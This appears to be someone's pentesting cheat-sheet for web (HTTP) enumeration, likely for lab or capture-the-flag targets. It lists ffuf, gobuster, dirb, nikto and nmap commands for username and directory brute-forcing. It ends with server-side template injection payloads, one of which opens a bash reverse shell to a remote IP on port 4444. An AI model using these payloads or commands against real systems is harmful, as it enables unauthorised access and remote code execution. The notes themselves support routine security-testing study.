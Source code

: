 ```yaml
---
  title: "HTTP"
---
```

# Methodology

- identify http port
- identify services version
- identify stack (wordpress, joumla etc.)
- identify directories
- identify subdomains
- Look for common vulnerabilities and fileis
-

# Service discovery
# Framework discovery
# Common vulnerabilities discovery
# Directory discovery
# Subdomain discovery
# Username discovery
#### ffuf
- w wordlist file Path
- X method
- H extra headers
- u the url
- mr specifies the text on the page that we are looking to validate that we have a valid username
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.93.83/customers/signup -mr "username already exists"`

# HTTPS

nikto -host

Port and service scanning
nmap -sV --script=http-enum 192.168.120.62

curl -v http://192.168.120.62:8000


FUZZING
ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://147.102.33.187/FUZZ"
gobuster dir --url 10.129.227.155 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
gobuster dir -u http://10.10.11.100/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30 -x php

dirb http://192.168.120.62:8000

amqtt
nmap -sV -Pn -n -T4 -p 5672 --script amqp-info <IP>


Check if web app is vulnerable to Server-Side Template Injection
URL: 192.248.251.3:8000/{{7*’7'}}
SSTI Payload: {{config.__class__.__init__.__globals__[‘os’].popen(‘ls’).read()}}
SSTI Payload: {{config.__class__.__init__.__globals__[‘os’].popen(“bash -c ‘bash -i >& /dev/tcp/192.248.251.2/4444 0>&1’”).read()}}

xsser tool
